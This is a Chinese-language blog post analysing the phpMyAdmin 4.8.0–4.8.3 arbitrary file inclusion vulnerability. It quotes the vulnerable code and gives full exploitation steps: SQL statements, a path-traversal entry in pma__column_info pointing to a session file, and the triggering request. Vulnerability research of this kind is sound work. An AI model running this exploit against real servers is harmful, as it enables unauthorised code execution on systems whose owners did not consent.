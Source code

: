 ```yaml
---
title: "Phpmyadmin4.8.0~4.8.3任意文件包含"
date: 2018-12-20T08:34:43+08:00
categories: ['Vulnerability']
tags: ['Vulnerability','phpmyadmin','include']
---
```


2018年12月7日，phpmyadmin官方发布[公告](https://www.phpmyadmin.net/security/PMASA-2018-6/)修复了一个由`Transformation`特性引起的任意文件包含漏洞。<!--more-->

## 漏洞分析

`Transformation`是phpMyAdmin中的一个高级功能，通过`Transformation`可以对每个字段的内容使用不同的转换，每个字段中的内容将被预定义的规则所转换。比如我们有一个存有文件名的字段`Filename`，正常情况下 phpMyAdmin 只会将路径显示出来。但是通过`Transformation`我们可以将该字段转换成超链接，我们就能直接在 phpMyAdmin 中点击并在浏览器的新窗口中看到这个文件。

通常情况下Transformation的规则存储在每个数据库的`pma__column_info`表中，而在phpMyAdmin 4.8.0~4.8.3版本中，由于对转换参数处理不当，导致了任意文件包含漏洞的出现。

这些转换在phpMyAdmin的`column_info`表中定义，他通常已经存在于phpMyAdmin的系统表中。但是每个数据库都可以生成自己的版本。要为特定数据库生成phpmyadmin系统表，可以这样生成

```http
http://phpmyadmin/chk_rel.php?fixall_pmadb=1&db=*yourdb*
```

它将会创建一个`pma__*`表的集合到你数据库中。

说了这么多，我们来看下具体产生漏洞的代码`tbl_replace.php`

```php
<?php

$mime_map = Transformations::getMIME($GLOBALS['db'], $GLOBALS['table']);
[省略]
// Apply Input Transformation if defined
if (!empty($mime_map[$column_name])
&& !empty($mime_map[$column_name]['input_transformation'])
) {
   $filename = 'libraries/classes/Plugins/Transformations/'
. $mime_map[$column_name]['input_transformation'];
   if (is_file($filename)) {
      include_once $filename;
      $classname = Transformations::getClassName($filename);
      /** @var IOTransformationsPlugin $transformation_plugin */
      $transformation_plugin = new $classname();
      $transformation_options = Transformations::getOptions(
         $mime_map[$column_name]['input_transformation_options']
      );
      $current_value = $transformation_plugin->applyTransformation(
         $current_value, $transformation_options
      );
      // check if transformation was successful or not
      // and accordingly set error messages & insert_fail
      if (method_exists($transformation_plugin, 'isSuccess')
&& !$transformation_plugin->isSuccess()
) {
         $insert_fail = true;
         $row_skipped = true;
         $insert_errors[] = sprintf(
            __('Row: %1$s, Column: %2$s, Error: %3$s'),
            $rownumber, $column_name,
            $transformation_plugin->getError()
         );
      }
   }
}
```

拼接到`$filename`的变量`$mime_map[$column_name]['input_transformation']`来自于数据表`pma__column_info`中的`input_transformation`字段，因为数据库中的内容用户可控，从而产生了任意文件包含漏洞。

## 漏洞利用

1. 创建一个新的数据库`foo`和一个随机的`bar`表，在表中创建一个`baz`字段，然后把我们的php代码写入session
```sql
CREATE DATABASE foo;
CREATE TABLE foo.bar ( baz VARCHAR(255) PRIMARY KEY );
INSERT INTO foo.bar SELECT '<?php phpinfo() ?>';
```

2. 创建phpmyadmin系统表在你的`foo`数据库中

    ```http
    http://phpmyadmin/chk_rel.php?fixall_pmadb=1&db=foo
    ```

3. 将篡改后的`Transformation`数据插入表`pma__columninfo`中：将`yourSessionId`替换成你的会话ID，即COOKIE中phpMyAdmin的值
    ```sql
      INSERT INTO `pma__column_info`SELECT '1', 'foo', 'bar', 'baz', 'plop',
    'plop', 'plop', 'plop',
    '../../tmp/sess_{yourSessionId}','plop';
    ```

4.  然后访问

    ```http
    http://phpmyadmin/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1
    ```
	如果利用成功，则会返回`phpinfo();`